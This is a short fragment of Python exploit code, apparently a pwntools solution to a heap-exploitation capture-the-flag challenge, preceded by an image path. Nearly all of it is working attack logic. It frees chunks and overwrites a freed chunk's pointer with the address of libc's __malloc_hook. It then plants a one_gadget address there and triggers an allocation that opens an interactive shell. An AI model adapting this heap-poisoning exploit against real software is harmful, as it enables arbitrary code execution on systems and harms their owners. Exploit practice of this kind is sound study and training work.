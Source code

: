 ```
malloc_hook = libc_base + libc.symbols['__malloc_hook']
add(9,0x70,p64(0))
add(10,0x70,p64(0))
add(11,0x70,p64(0))
dele(9)
dele(10)
dele(11)
edit(11,p64(malloc_hook))
gadget1 = libc_base + 0xe3afe
gadget2 = libc_base + 0xe3b01
add(12,0x70,b'12')
add(13,0x70,p64(gadget2))
print(hex(malloc_hook))
print(hex(gadget1))
#gdb.attach(io)
#pause()
io.sendafter(b'>> ',b'1')
io.sendafter(b'Enter index: ',b'14')
io.sendafter(b'Enter size: ',b'0x70')
io.interactive()
```